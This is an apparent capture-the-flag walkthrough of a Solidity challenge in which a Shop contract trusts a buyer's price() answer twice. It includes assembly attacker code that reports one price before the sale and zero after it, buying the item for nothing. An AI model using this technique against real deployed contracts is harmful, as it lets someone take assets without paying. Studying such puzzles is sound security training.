# 21. Shop

Сan you get the item from the shop for less than the price asked?

## Target contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price{gas:3300}() >= price && !isSold) {
      isSold = true;
      price = _buyer.price{gas:3300}();
    }
  }
}
```

## Vulnerability

The issue here is that _buyer could be a statefull contract that tracks the calls to `price()` in order to return two different values.
The first one `100` or more to pass `if (_buyer.price{gas:3300}() >= price && !isSold)` and the second one as low as possible to pay less on `price = _buyer.price{gas:3300}();`.

The naive approach of using a state variable doesn't work as writing to storage cost 20K gas, much more than the 3300 gas given...

A second approach was to read the `isSold` variable from the Shop contract.

```solidity
contract AttackerNaive {
    IShop immutable targetContract;
 
    constructor(IShop _targetContract) {
        targetContract = _targetContract;
    }

    function attack() public {
        targetContract.buy();
    }

    function price() public view returns (uint256) {
      if (targetContract.isSold() == false) {
        return 100;
      }

      return 0;
    }
}
```

But it doesn't work either as there is not enough gas... Solidity's bytecode contains many unnecessary OPCODES that just eat away the little bit of gas we were given.

So I went for an assembly version :

```solidity
contract Attacker {
    IShop immutable targetContract;
 
    constructor(IShop _targetContract) {
        targetContract = _targetContract;
    }

    function attack() public {
        targetContract.buy();
    }

    function price() public view returns (uint256 p) {

        bytes4 sig = 0xe852e741;
        address addr = 0xCa305778dC31fc201e741812fFeC903B2E6c6E05;

        assembly {
            let rvalue := mload(0x40)
            let ptr := add(rvalue, 0x20)
            mstore(ptr, sig)
            mstore(0x40, add(rvalue, 0x40))
            let success := staticcall(3000, addr, ptr, 4, rvalue, 32)

            switch mload(rvalue)
            case 0 {
              p := 100
            }
            default {
              p:= 0
            }
        }
    }
}
```
Which just does the same thing as the naive version but in a cheaper way. This code passes the challenge.